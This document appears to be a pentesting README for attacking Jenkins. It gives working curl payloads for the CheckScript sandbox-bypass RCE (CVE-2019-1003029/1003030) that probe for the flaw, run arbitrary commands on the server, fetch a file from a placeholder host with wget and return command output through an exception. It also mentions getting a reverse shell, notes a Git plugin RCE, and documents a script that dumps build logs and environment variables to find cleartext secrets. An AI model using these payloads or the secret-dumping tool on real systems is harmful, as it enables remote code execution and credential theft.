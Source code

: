 
CheckScript RCE in Jenkins (CVE-2019-1003029, CVE-2019-1003030)
---------------------------------------------------------------
[Jenkins Advisory](https://jenkins.io/security/advisory/2019-03-06/), [Credits](https://twitter.com/webpentest).

Check if a Jenkins instance is vulnerable (needs Overall/Read permissions) with some Groovy:
```bash
curl -k -4 -X POST "https://example.com/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript/" -d "sandbox=True" -d 'value=class abcd{abcd(){sleep(5000)}}'
```

Execute arbitraty bash commands:
```bash
curl -k -4 -X POST "https://example.com/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript/" -d "sandbox=True" -d 'value=class abcd{abcd(){"wget xx.xx.xx.xx/bla.txt".execute()}}'
```

If you don't immediately get a reverse shell you can debug by throwing an exception:
```bash
curl -k -4 -X POST "https://example.com/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript/" -d "sandbox=True" -d 'value=class abcd{abcd(){def proc="id".execute();def os=new StringBuffer();proc.waitForProcessOutput(os, System.err);throw new Exception(os.toString())}}'
```

Git plugin (<3.12.0) RCE in Jenkins (CVE-2019-10392)
----------------------------------------------------
[Jenkins Advisory](https://jenkins.io/security/advisory/2019-09-12/), [Credits](https://iwantmore.pizza/posts/cve-2019-10392.html).

This one will only work is a user has the 'Jobs/Configure' rights in the security matrix so it's very specific.


Dumping builds to find cleartext secrets
========================================
Use [this script](./dump_builds/jenkins_dump_builds.py) to dump build console outputs and build environment variables to hopefully find cleartext secrets.

```
usage: jenkins_dump_builds.py [-h] [-u USER] [-p PASSWORD] [-o OUTPUT_DIR]
                              [-l] [-r] [-d] [-s] [-v]
                              url [url ...]

Dump all available info from Jenkins

positional arguments:
  url

optional arguments:
  -h, --help            show this help message and exit
  -u USER, --user USER
  -p PASSWORD, --password PASSWORD
  -o OUTPUT_DIR, --output-dir OUTPUT_DIR
  -l, --last            Dump only the last build of each job
  -r, --recover_from_failure
                        Recover from server failure, skip all existing
                        directories
  -d, --downgrade_ssl   Downgrade SSL to use RSA (for legacy)
  -s, --no_use_session  Don't reuse the HTTP session, but create a new one for
                        each request (for legacy)
  -v, --verbose         Debug mode
```
